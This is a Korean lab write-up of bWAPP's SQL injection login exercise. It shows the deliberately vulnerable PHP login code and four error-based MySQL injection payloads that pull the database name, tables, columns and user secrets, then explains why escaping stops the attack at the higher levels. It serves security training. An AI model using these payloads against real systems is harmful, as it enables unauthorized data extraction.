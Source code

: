 ```yaml
---
layout: single
title: (bWAPP)SQL Injection (Login Form/User)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image.png)
- Login Form이 존재

![그림 1-2](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image2.png)
- '(싱글 쿼터) 입력시 DBMS Error가 발생

![그림 1-3](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image3.png)
- Error 은 발생하였으나, 일반적인 우회는 되지 않음.

### 검증 로직
```php
137         $login = $_POST["login"];
138         $login = sqli($login);
139 
140         $password = $_POST["password"];
141         $password = sqli($password);
142         $password = hash("sha1", $password, false);
143 
144         $sql = "SELECT * FROM users WHERE login = '" . $login . "'";
145 
146         // echo $sql;
147 
148         $recordset = mysql_query($sql, $link);
149 
150         if(!$recordset)
151         {
152 
153             die("Error: " . mysql_error());
154 
155         }
156 
157         else
158         {
159 
160             $row = mysql_fetch_array($recordset);
161 
162             if($row["login"] && $password == $row["password"])
163             {
164 
165                 // $message = "<font color=\"green\">Welcome " . ucwords($row["login"]) . "...</font>";
166                 $message =  "<p>Welcome <b>" . ucwords($row["login"]) . "</b>, how are you today?</p><p>Your secret: <b>" . ucwords($row["secret"        ]) . "</b></p>";
167                 // $message = $row["login"];
168 
169             }
170 
171             else
172             {
173 
174                 $message = "<font color=\"red\">Invalid credentials!</font>";
175 
176             }
```
- 해당 로직을 구현하는 코드이다.
- 입력받는 값을 보게되면 미완성된 SQL 구문에 첫 쿼리 password 없이 login 값만 쿼리에 추가시켜 완성된 구문을 만든다.
- 그 후 DB에 저장되어 있는 password값과 입력한 password값을 비교하고 login 값과 비교 후 맞으면 로그인 된다.
- 해당 로직은 일바적은 SQL Injection 를 통한 인증 우회는 되지 않는다.
- 이 때 153번줄을 보게 되면 DBMS Error을 출력하괴 되므로 Error Based 공격이 가능하다.

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT schema_name FROM information_schema.schemata LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.schemata GROUP BY a LIMIT 0,1)b)--
```

![그림 1-4](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image4.png)

- DB 추출 성공
- 이후 순차적으로 테이블, 컬럼, 데이터를 추출했다.

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT table_name FROM information_schema.tables where table_schema='bWAPP' LIMIT 3,1), FLOOR(rand(0)*2))a FROM information_schema.tables GROUP BY a LIMIT 0,1)b)--
```

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT column_name FROM information_schema.columns where table_schema='bWAPP' and table_name='users' LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.columns GROUP BY a LIMIT 0,1)b)--
```

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT concat(login,0x3a,id,0x3a,secret) from bWAPP.users LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.columns GROUP BY a LIMIT 0,1)b)--
```

![그림 1-5](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image5.png)
- 성공적으로 데이터를 추출할 수 있다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

